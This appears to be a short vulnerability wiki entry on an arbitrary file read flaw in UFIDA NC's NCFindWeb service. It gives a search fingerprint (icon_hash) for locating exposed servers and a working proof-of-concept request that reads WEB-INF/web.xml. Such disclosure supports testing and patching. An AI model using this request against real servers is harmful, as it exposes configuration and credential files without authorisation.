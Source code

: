 # UFIDA NC NCFindWeb arbitrary file reading vulnerability

## Vulnerability Description

UFIDA NC has a vulnerability to read any file, and an attacker can read server-sensitive files through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA NC</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1085941792"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

Verify POC

```
 /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)